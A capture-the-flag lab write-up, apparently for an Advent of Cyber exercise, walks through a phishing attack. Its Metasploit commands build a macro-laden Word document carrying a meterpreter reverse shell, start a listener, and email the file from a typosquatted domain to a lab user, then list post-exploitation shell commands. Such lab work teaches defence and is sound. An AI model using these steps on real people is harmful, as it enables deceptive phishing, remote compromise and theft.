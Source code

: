# Phishing Day 10: He had a brain full of macros, and had shells in his soul.

## Learning Objectives
- Understand how phishing attacks work
- Discover how macros in documents can be used and abused
- Learn how to carry out a phishing attack with a macro


1. Create the payload (malicious document) using Metasploit Framework
   - use your Kali attackbox IP as the local host IP address (LHOST)

```
msfconsole 
set payload windows/meterpreter/reverse_tcp
use exploit/multi/fileformat/office_word_macro
set LHOST x.x.x.x
set LPORT port#
```


<img src="https://raw.githubusercontent.com/Nisha318/Nisha318.github.io/master/assets/images/thm/advent-of-cyber/2024/day10-1.png" alt="day10-1"><br>





<img src="https://raw.githubusercontent.com/Nisha318/Nisha318.github.io/master/assets/images/thm/advent-of-cyber/2024/day10-2.png" alt="day10-2"><br>


<img src="https://raw.githubusercontent.com/Nisha318/Nisha318.github.io/master/assets/images/thm/advent-of-cyber/2024/day10-3.png" alt="day10-3"><br>

	2. Listening for Incoming Connections (terminal 2)

  In a new terminal tab:

```
msfconsole

use multi/handler

set payload windows/meterpreter/reverse_tcp

set LHOST x.x.x.x

set LPORT port#

show options

exploit 
```

<img src="https://raw.githubusercontent.com/Nisha318/Nisha318.github.io/master/assets/images/thm/advent-of-cyber/2024/day10-4.png" alt="day10-4"><br>


<img src="https://raw.githubusercontent.com/Nisha318/Nisha318.github.io/master/assets/images/thm/advent-of-cyber/2024/day10-5.png" alt="day10-5"><br>


<img src="https://raw.githubusercontent.com/Nisha318/Nisha318.github.io/master/assets/images/thm/advent-of-cyber/2024/day10-6.png" alt="day10-6"><br>


3. Email the Malicious Document (using typosquatting technique)

My email sender app was located at:
http://10.10.240.185/mail/


<img src="https://raw.githubusercontent.com/Nisha318/Nisha318.github.io/master/assets/images/thm/advent-of-cyber/2024/day10-7.png" alt="day10-7"><br>


<img src="https://raw.githubusercontent.com/Nisha318/Nisha318.github.io/master/assets/images/thm/advent-of-cyber/2024/day10-8.png" alt="day10-8"><br>

Attach the payload:
 Navigate to: root > .msf4 > local > msf.docm > open

 
<img src="https://raw.githubusercontent.com/Nisha318/Nisha318.github.io/master/assets/images/thm/advent-of-cyber/2024/day10-9.png" alt="day10-9"><br>
<img src="https://raw.githubusercontent.com/Nisha318/Nisha318.github.io/master/assets/images/thm/advent-of-cyber/2024/day10-10.png" alt="day10-10"><br>

Address an email to the target user, marta@socmas.thm, convincing her to open the malicious file attachment.  The sender's email domain is a deliberate typo used to trick the receiver:

<img src="https://raw.githubusercontent.com/Nisha318/Nisha318.github.io/master/assets/images/thm/advent-of-cyber/2024/day10-11.png" alt="day10-11"><br>


Marta responded by acknowledging the message and advised that she would check the document immediately. 

<img src="https://raw.githubusercontent.com/Nisha318/Nisha318.github.io/master/assets/images/thm/advent-of-cyber/2024/day10-12.png" alt="day10-12"><br>

## Exploitation

Marta's action triggers the execution of the payload, which initiates a reverse shell connection back to my attacker machine IP address to its listening port:


<img src="https://raw.githubusercontent.com/Nisha318/Nisha318.github.io/master/assets/images/thm/advent-of-cyber/2024/day10-13.png" alt="day10-13"><br>

```
shell
whoami
cd c:/users/Administrator/Desktop
dir
type flag.txt
```

<img src="https://raw.githubusercontent.com/Nisha318/Nisha318.github.io/master/assets/images/thm/advent-of-cyber/2024/day10-14.png" alt="day10-14"><br>
<img src="https://raw.githubusercontent.com/Nisha318/Nisha318.github.io/master/assets/images/thm/advent-of-cyber/2024/day10-15.png" alt="day10-15"><br>
<img src="https://raw.githubusercontent.com/Nisha318/Nisha318.github.io/master/assets/images/thm/advent-of-cyber/2024/day10-16.png" alt="day10-16"><br>

